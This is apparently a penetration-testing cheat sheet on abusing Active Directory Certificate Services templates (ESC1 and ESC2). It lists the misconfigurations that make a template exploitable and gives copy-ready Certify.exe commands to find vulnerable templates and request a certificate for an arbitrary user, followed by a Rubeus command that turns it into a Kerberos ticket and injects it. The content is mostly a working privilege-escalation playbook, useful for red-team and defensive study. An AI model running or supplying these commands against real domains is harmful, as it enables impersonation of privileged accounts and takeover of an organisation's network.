 ```bash
.\Certify.exe enum-templates --ca $PublishingCA --ldapserver $DC --filter-vulnerable --filter-enabled --hide-admins
```



## ESC1

### Requirements
- ```ENROLLEE_SUPPLIES_SUBJECT``` flag in the certificate template
- Enrollment rights granted to a user or group for which we have access to
- Manager approval not enabled
- Authorized signature are not required

### Enumeration
```bash
.\Certify.exe enum-templates --ca $PublishingCA --ldapserver $DC --filter-vulnerable --filter-enabled --hide-admins --filter-supply-subject
```

### Exploit
> Request Certificate
```bash
.\Certify.exe request --ca $PublishingCA --template $TEMPLATE --upn $USER --sid $SID
```
> Ask TGT
```bash
.\Rubeus.exe Rubeus.exe asktgt /certificate:MIACAQMwgAYJKo... /domain:$DOMAIN /user:$USER /dc:$DCIP /nowrap /ptt /enctype:aes256 /opsec
```

## ESC2

### Requirements

if ```ENROLLEE_SUPPLIES_SUBJECT``` is present:

- ```ENROLLEE_SUPPLIES_SUBJECT``` flag present in the certificate template
- Enrolment rights granted to a user or group for which we have access to
- EKU is set to "Any Purpose" or nothing at all
- Manager approval not enabled
- Authorized signature are not required

if ```ENROLLEE_SUPPLIES_SUBJECT``` is **NOT** present:

- Enrolment rights granted to a user or group for which we have access to
- EKU is set to "Any Purpose" or nothing at all
- Manager approval not enabled
- Authorized signature are not required

Then the template can be used as a certificate request agent in which this attack becomes ESC3. If this is the case, follow the guidance below to abuse ESC3
